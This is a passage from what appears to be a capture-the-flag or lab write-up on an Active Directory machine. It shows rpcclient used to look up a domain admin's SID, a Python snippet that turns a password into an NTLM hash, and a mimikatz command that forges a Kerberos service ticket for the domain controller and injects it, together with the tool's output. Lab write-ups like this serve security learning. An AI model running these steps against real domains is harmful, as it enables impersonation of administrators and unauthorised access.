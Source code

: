 ![alt text](<../assets/images/3 (3).png>)

tony.ward is domain admins so lets try with him.

grab sid

    ➜  lustrous rpcclient -U "ben.cox" //LUSDC
    Password for [WORKGROUP\ben.cox]:
    rpcclient $> lookupnames tony.ward
    tony.ward S-1-5-21-2355092754-1584501958-1513963426-1114 (User: 1)

password to ntlm 

    import hashlib

    password = "iydgTvmujl6f"
    password_bytes = password.encode("utf-16le")
    md4_hash = hashlib.new("md4", password_bytes).digest()
    ntlm_hash = md4_hash.hex()
    print(ntlm_hash)

## sliver-ticket

    mimikatz # kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /target:lusdc.lustrous.vl /service:HTTP /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /id:1114 /target:lusdc.lustrous.vl /ptt
    User      : tony.ward
    Domain    : lustrous.vl (LUSTROUS)
    SID       : S-1-5-21-2355092754-1584501958-1513963426
    User Id   : 1114
    Groups Id : *513 512 520 518 519
    ServiceKey: e67af8b3d78df5a02eb0d57b6cb60717 - rc4_hmac_nt
    Service   : HTTP
    Target    : lusdc.lustrous.vl
    Lifetime  : 1/18/2025 12:26:31 AM ; 1/16/2035 12:26:31 AM ; 1/16/2035 12:26:31 AM
    -> Ticket : ** Pass The Ticket **
